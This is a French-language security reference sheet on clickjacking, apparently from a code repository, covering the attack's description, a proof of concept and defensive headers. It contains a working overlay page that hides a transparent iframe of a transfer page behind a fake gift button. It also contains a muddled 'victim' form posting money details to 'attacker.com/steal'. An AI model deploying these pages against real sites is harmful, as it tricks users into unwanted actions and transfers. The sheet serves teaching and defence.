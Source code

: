 # Clickjacking
## COUCHE 7

### Usurpation
### Contournement
### Observation

#### ATTAQUE = CLICKJACKING

##### CONFIDENTIALITE
##### INTEGRITE

**Description** :
Le clickjacking consiste à tromper un utilisateur en masquant un contenu malveillant derrière un bouton ou lien légitime, souvent via une iframe invisible.

**Source** : https://owasp.org/www-community/attacks/Clickjacking1<br>
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options1<br>
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors

## Déroulé de l’attaque (PoC)

### 1.Cible visée
Imaginons que la cible soit une page sensible comme :  
`https://example.com/transfer-funds`

### 2.Création d’une page piégée

#### `malicious.html` (hébergée par l'attaquant)

```html
<!DOCTYPE html>
<html>
<head>
  <title>Concours gratuit !</title>
  <style>
    iframe {
      opacity: 0;
      position: absolute;
      top: 50px;
      left: 50px;
      width: 800px;
      height: 600px;
      z-index: 2;
    }
    #fake-button {
      position: absolute;
      top: 50px;
      left: 50px;
      z-index: 3;
    }
  </style>
</head>
<body>

<h1>Cliquez ici pour recevoir votre cadeau !</h1>
<button id="fake-button">Obtenir le cadeau</button>

<iframe src="https://example.com/transfer-funds" frameborder="0"></iframe>

</body>
</html>
```

### 3.Explication

L'utilisateur croit cliquer sur un bouton visible alors qu'il clique en réalité sur une action masquée dans une iframe transparente.

##Test local

### `victim.html`

```html
<!DOCTYPE html>
<html>
<head><title>Banque en ligne</title></head>
<body>
  <form action="https://attacker.com/steal" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker_account">
    <input type="submit" value="Transférer">
  </form>
</body>
</html>
```

##Défense

### En-têtes HTTP à ajouter sur le site cible

```http
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none';
```

### Protection JavaScript

```javascript
if (top !== self) {
  top.location = self.location;
}
```

